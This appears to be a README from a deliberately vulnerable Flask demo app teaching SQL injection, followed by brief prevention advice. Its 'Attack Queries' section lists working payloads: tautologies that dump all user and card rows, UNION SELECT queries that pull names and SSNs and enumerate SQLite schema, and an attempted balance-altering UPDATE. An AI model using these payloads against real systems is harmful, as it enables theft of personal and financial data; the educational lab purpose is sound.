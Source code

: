 # TODO

## Attack Queries

### Users
Get data of all users

```sql
' or '1' = '1 
```

- Querying tables info

```sql
' AND '1' = '2' UNION SELECT type, name, tbl_name, rootpage, sql, 'dummy', 'dummy1', 'dummy2' FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%
```

### Cards

Get data of all cards
```sql
' or '1' = '1 
```

Querying data from different tables
- Get `name`, `ssn` of users
```sql
' AND '1' = '1' UNION SELECT name, ssn FROM users --
```

- Get `name`, `camel_id` of users
```sql
' AND '1' = '1' UNION SELECT name, camel_id FROM users --
```

- Querying tables info

```sql
' AND '1' = '2' UNION SELECT sql, name FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%
```


### Unable to execute

- Unable to combine multiple queries

```sql
' or '1' = '1; UPDATE users SET balance=1000 WHERE camel_id='4395--
```

## How to prevent SQL Injection?

## Programmatically 

#### Input Sanitizing/Validation

The validity of the input submitted by user is verified. The criterias for input can include:
- Format
- Character
- Length

#### Input Parameterization

Pre-compiling a SQL statement, user input are supplied at the time queries are executed. User input provided to the query are treated as parameters. 

#### `ORM` - Object Relational Mapping



## Coding Practices

### Training

Provide training sessions for engineers to improve their coding practices. Raising awareness on common type of attacks that can rooted from poor code quality.

### Code Quality Assurance

> DevSecOps - Integrating Security into the code's development & delivery process.

- Linter/Static Code Analysis Tools: automated checking source code for programmatic and stylistic errors.

# Sources

[Flask SQL Injection Vulnerable](https://github.com/guilatrova/flask-sqlinjection-vulnerable)